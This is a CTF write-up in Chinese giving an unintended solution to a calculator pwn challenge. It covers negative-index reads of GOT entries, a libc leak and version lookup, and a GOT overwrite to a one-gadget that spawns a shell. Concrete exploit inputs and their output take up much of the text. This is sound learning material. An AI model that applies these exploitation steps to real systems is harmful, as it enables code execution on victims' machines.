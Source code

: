 
## It's MyCalculator!!!!! 非预期解

方法的前半部分寻找修改库函数地址的方法是一样的，可以参考官方或他人题解。开始~~嘉禾望岗~~分道扬镳的地方是修改的地址及此后的利用手段。这里提供一种使用 one-gadget 的做法。我最开始尝试 one-gadget 的原因只是为了偷懒（把什么函数的 GOT 改成 `system` ，然后让它的第一个参数，也就是 RDI 寄存器指向 `/bin/sh\0` 或 `cat /flag` 实在有点难，特别是这个不知道栈地址的程序）。但 one-gadget 存在约束，只有当寄存器或栈符合特定条件时才能执行 shell。

在源码中看到了 `GET` 和 `PUT` 函数可能可以通过无符号 32 位整数取到负的索引（印证了题面的信息）。看一下存储数字的缓存的地方，是 `.bss` 节，前面（更低地址处）是 `.got.plt` 表，在运行的时候存放着程序中使用的库函数的真实地址，**而且还是可写的**。但 libc 库是未知的，我们要先泄漏地址，然后通过两个函数的地址差来泄漏 libc 的版本。

从 `isatty` 和 `fread` 入手，`isatty` 的 GOT 地址为 0x6020，`fread` 的是 0x6028。缓存的地址为 0x6100（由于 PIE，**上述三个地址都不是真实的虚拟地址**，但偏移是固定的），两个函数的 GOT 对应的索引为 -56、-55 和 -54、-53（注意这是 64 位应用程序，而缓存是 32 位整数数组），改成无符号整数就是 4294967240、4294967241 和 4294967242、4294967243。于是下面的输入用于泄漏 libc 的版本（C 语言转义字符串形式，及对应的 Base64 payload）：
```
GET 4294967240\nGET 4294967241\nGET 4294967242\nGET 4294967243\n
```
```
R0VUIDQyOTQ5NjcyNDAKR0VUIDQyOTQ5NjcyNDEKR0VUIDQyOTQ5NjcyNDIKR0VUIDQyOTQ5NjcyNDMK
EOF
```
得到的结果为（由于 ASLR，**结果是随机的**，但十六进制的后三位不会变，高 32 位也不变，两个函数的偏移也是固定的）
```
output = -1999255648 (Stored as idx 0)
output = 32725 (Stored as idx 1)
output = -1999792720 (Stored as idx 2)
output = 32725 (Stored as idx 3)
```
根据小端序（Little-Endian）的原理，`isatty` 和 `fread` 函数在库中的地址分别为 0x7FD588D5C7A0 和 0x7FD588CD95B0。打开 [libc 版本查询网站](https://libc.rip/)（[另一个网站](https://libc.blukat.me/)太旧了，不能用），输入上面两个函数的地址，得到了 6 个结果：`libc6_2.36-9+deb12u2_amd64` 等等，版本号都是 2.36，但文件又不一样。先下载第一个，用 `one_gadget` 程序分析，得到了 5 个 one-gadget 函数地址：0x4C050、0xD4F9F、0xF2592、0xF259A 和 0xF259F，约束都不一样。此外，`isatty` 和 `fread` 函数的地址分别为 0xF97A0 和 0x765B0。

改函数 A 的 GOT 地址的方法是先通过 GET 指令获取函数 B（A 和 B 可以相同也可以不相同）的地址低 32 位，加上或减去地址差值，然后用 PUT 指令写入。然后接下来就**随便乱试**了，毕竟 one-gadget 的成功可能并不高。然而，当我把 `fread` 的 GOT 改成第二个 one-gadget 时，输入如下（-149505 是因为第二个 one-gadget 的地址 0xD4F9F 比 `isatty` 的低 0x24801）：
```
PUT 4294967242 0-149505+GET 4294967240\n
```
```
UFVUIDQyOTQ5NjcyNDIgMC0xNDk1MDUrR0VUIDQyOTQ5NjcyNDAK
EOF
```
得到的结果是
```
/bin/sh: 0: cannot open PUT 4294967242 0-149505+GET 4294967240
: No such file
```
看起来 Shell 真的运行了，但估计参数不太对劲，竟然是……**打开 payload**？具体原因也许可以通过调试得到，但没空分析了。

那就在输入前面加一行，用 `\0` 截断：
```
/flag\0\nPUT 4294967242 0-149505+GET 4294967240\n
```
```
L2ZsYWcAClBVVCA0Mjk0OTY3MjQyIDAtMTQ5NTA1K0dFVCA0Mjk0OTY3MjQwCg==
EOF
```
得到结果：
```
error: syntax error
/flag: 1: flag{libcue+gnome_track_miners=1clickRCE_CVE-2023-43641_xxxxxxxxxx}: not found
```